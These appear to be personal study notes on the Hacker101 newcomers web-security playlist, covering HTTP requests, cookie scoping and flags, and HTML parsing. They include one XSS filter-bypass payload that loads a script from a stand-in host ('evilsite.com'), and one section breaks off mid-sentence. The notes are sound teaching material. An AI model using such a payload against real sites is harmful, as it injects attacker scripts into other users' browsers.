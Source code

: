# Newcomers Playlist Notes

### Source: https://www.hacker101.com/playlists/newcomers

## Introduction - By Cody Brocious

### Tools Required:

- Burp proxy
- Firefox

### Finding Vulnerabilities

- Try to find-out every functionality of the applications, and think about what
  could possibly go wrong with them?

- Then prioritize the function to compromize according to the value they
  provide.

- Understand the developer pain side in the application deployment. Which can
  provide the Idea for where to look.

### Severity

- `Informational`: Issue has no real impact
- `Low`: The business impact is minimal
- `Medium`: Potential to cause harm to users, but not revealing data
- `High`: Potential to reveal user data or aids in exploitation of other
  vulnerabilities.
- `Critical`: High risk of personal/confidential data exposure, general system
  compromise, and other severe impacts to the business.

## The Web In Depth

### Requests

**Basic Format of Web Request**:

```
VERB /resource/locator HTTP/1.1
Header1: Value1
Header2: Value2

...
<body of the request>
```

### Request Headers

- **Host**: Indicates the desired host handling the request
- **Accept**: Indicates what MIME type(s) are accepted by the client; often used
  to specify JSON or XML output for web-services
- **Cookie**: Passes cookie data to the server
- **Referer**: Page leading to this request (note: this is not passed to other
  servers when using HTTPS on the origin)
- **Authorization**: Used for 'basic auth' pages (mainly). Takes the form "Basic
  <base64'd username:password>"

### Cookies

- Key-value
- Fixed-Period
- Domain Pattern
- Comes from the server or added by the javascript
- If you are able to set cookies on the domains where you're not supposed that's
  also a breach of security.

### Cookies Security

- Cookies added for .example.com can be read by any subdomain of example.com
- Cookies added for a subdomain can only be read in that subdomain and its
  subdomains
- A subdomain can set cookies for its own subdomains and parent, but it can't
  set cookies for siblings domains
  - E.g. test.example.com can't set cookies on test2.example.com, can't set
    cookies on test2.example.com, but can set them on example.com and
    foo.test.example.com

- There are two important flags to know for cookies:

  - Secure: The cookie will only be accessible to HTTPS pages
  - HTTPOnly: The cookie cannot be read by Javascript

- The server indicates these flags in the Set-Cookie header that passed them in
  the first place.

### HTML

#### Parsing

- HTML should be parsed according to the relevant spec, generally HTML5 now.

- But when you're talking about security, it's often not just parsed by your
  browser, but also Web-Application Firewalls and other filters.

- Wherever there's a discrepancy in how these two items parse things, there's
  probably a vulnerability.

#### Canonical Example

- You go to http://example.com/vulnerable?
  `name=<script/xss%20src=http://evilsite.com/my.js>` and it generates:

```
<!doctype html><html>
    <head>
        <title>Vulnerable page name <script/xss src=http://evilsite.com/my.js></title>
    </head>
</html>
```

- A bad XSS filter on the web application may not see that as a scipt tag due to
  it being a 'script/xss' tag. But Firefox's HTML parser, for instance, will
  treat the slash as whitespace, enabling the attack!

#### Legacy Parsing

- Due to decades of bad HTML, browsers are quite excellent at cleaning up after
  authors, and these conditions are often exploitable.

  - <script> tag on its own will automatically be closed at the end of the page.
  - A tag missing its closing angle bracket will automatically be closed by the
    angle bracket of the next tag on the page.

### Content Sniffing

#### MIME Sniffing

not very relevant these days but was a security issue at some time.

- The browser will often not just look

## Todos

- Take a look at request library in Python, practice some example scripts!

- Playaround with Cookies, practice the hierarchical scenarios and test to
  manipulate the cookies.

- Also try to go further in any topic to find out if there is anything more you
  should know.
